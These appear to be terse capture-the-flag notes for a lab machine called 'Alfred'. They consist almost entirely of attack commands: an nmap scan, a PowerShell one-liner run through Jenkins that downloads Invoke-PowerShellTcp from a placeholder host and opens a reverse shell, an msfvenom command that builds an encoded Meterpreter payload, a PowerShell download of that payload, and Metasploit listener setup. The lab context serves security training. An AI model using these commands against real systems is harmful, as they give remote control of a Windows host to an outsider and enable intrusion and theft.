

# Alfred

## Enumeration

### Nmap Scan

```bash
nmap  -T4 -sC -sV  -oN nmap/alfred -Pn $TARGET
```

## Exploitation

### Jenkins

upload powershell reverse shell and execute it

```ps1
powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port
```



### Switching to Meterpreteur shell

generate rshell

```ps1
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=[IP] LPORT=[PORT] -f exe -o [SHELL NAME].exe
```

download it to my to the target

```ps1
powershell "(New-Object System.Net.WebClient).Downloadfile('http://<ip>:<port>/shell-name.exe','shell-name.exe')"
```

Listen for connection with msf

```bash
use exploit/multi/handler set PAYLOAD windows/meterpreter/reverse_tcp 
set LHOST your-ip
set LPORT listening-port
set PAyLOAD windows/meterpreter/reverse_tcp
run

```

run the process

```ps1
Start-Process "shell-name.exe"
```